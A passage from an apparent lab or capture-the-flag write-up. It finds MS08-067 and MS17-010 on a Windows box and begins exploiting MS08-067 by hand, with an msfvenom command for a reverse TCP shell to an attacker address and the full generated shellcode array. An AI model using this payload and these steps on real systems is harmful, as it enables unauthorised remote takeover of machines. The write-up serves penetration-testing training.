 ```
```

Our vulnerability scan gives us some useful results. The box is vulnerable to two infamous **SMB Bugs** namely **MS08-067** and **MS17-010**. Any one of the two bugs can be exploitted to get a system-level access on the box.

Both of them have an exploit on **Metasploit**. But let us do the exploitation in a manual way.

# [](#header-1)EXPLOITING MS08-067:

There are lots of public exploits available for this bug on Github. However, I am going to use [this](https://github.com/andyacer/ms08_067). You can clone the same on your local box.

The only prerequisite for this is : you should have **impacket** version **0.9.17**. This normally comes default with Kali Linux, so you do not need to worry. However, if you do not have, you can get it from [here](https://github.com/CoreSecurity/impacket/).

Now, let us start with the exploitation. First, you need to generate a **reverse shell payload** in order to get a shell. I am using **msfvenom** for the same.

```
(py2) root@kali:/opt/ms08_067# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x4d\xfe\xf4\xee\x83\xee\xfc\xe2\xf4\xb1\x16\x76\xee\x4d\xfe"
"\x94\x67\xa8\xcf\x34\x8a\xc6\xae\xc4\x65\x1f\xf2\x7f\xbc\x59"
"\x75\x86\xc6\x42\x49\xbe\xc8\x7c\x01\x58\xd2\x2c\x82\xf6\xc2"
"\x6d\x3f\x3b\xe3\x4c\x39\x16\x1c\x1f\xa9\x7f\xbc\x5d\x75\xbe"
"\xd2\xc6\xb2\xe5\x96\xae\xb6\xf5\x3f\x1c\x75\xad\xce\x4c\x2d"
"\x7f\xa7\x55\x1d\xce\xa7\xc6\xca\x7f\xef\x9b\xcf\x0b\x42\x8c"
"\x31\xf9\xef\x8a\xc6\x14\x9b\xbb\xfd\x89\x16\x76\x83\xd0\x9b"
"\xa9\xa6\x7f\xb6\x69\xff\x27\x88\xc6\xf2\xbf\x65\x15\xe2\xf5"
"\x3d\xc6\xfa\x7f\xef\x9d\x77\xb0\xca\x69\xa5\xaf\x8f\x14\xa4"
"\xa5\x11\xad\xa1\xab\xb4\xc6\xec\x1f\x63\x10\x96\xc7\xdc\x4d"
"\xfe\x9c\x99\x3e\xcc\xab\xba\x25\xb2\x83\xc8\x4a\x01\x21\x56"
"\xdd\xff\xf4\xee\x64\x3a\xa0\xbe\x25\xd7\x74\x85\x4d\x01\x21"
"\xbe\x1d\xae\xa4\xae\x1d\xbe\xa4\x86\xa7\xf1\x2b\x0e\xb2\x2b"
"\x63\x84\x48\x96\xfe\xe4\x43\xef\x9c\xec\x4d\xff\x4f\x67\xab"
"\x94\xe4\xb8\x1a\x96\x6d\x4b\x39\x9f\x0b\x3b\xc8\x3e\x80\xe2"
"\xb2\xb0\xfc\x9b\xa1\x96\x04\x5b\xef\xa8\x0b\x3b\x25\x9d\x99"
"\x8a\x4d\x77\x17\xb9\x1a\xa9\xc5\x18\x27\xec\xad\xb8\xaf\x03"
"\x92\x29\x09\xda\xc8\xef\x4c\x73\xb0\xca\x5d\x38\xf4\xaa\x19"
"\xae\xa2\xb8\x1b\xb8\xa2\xa0\x1b\xa8\xa7\xb8\x25\x87\x38\xd1"
"\xcb\x01\x21\x67\xad\xb0\xa2\xa8\xb2\xce\x9c\xe6\xca\xe3\x94"
"\x11\x98\x45\x14\xf3\x67\xf4\x9c\x48\xd8\x43\x69\x11\x98\xc2"
"\xf2\x92\x47\x7e\x0f\x0e\x38\xfb\x4f\xa9\x5e\x8c\x9b\x84\x4d"
"\xad\x0b\x3b";
```
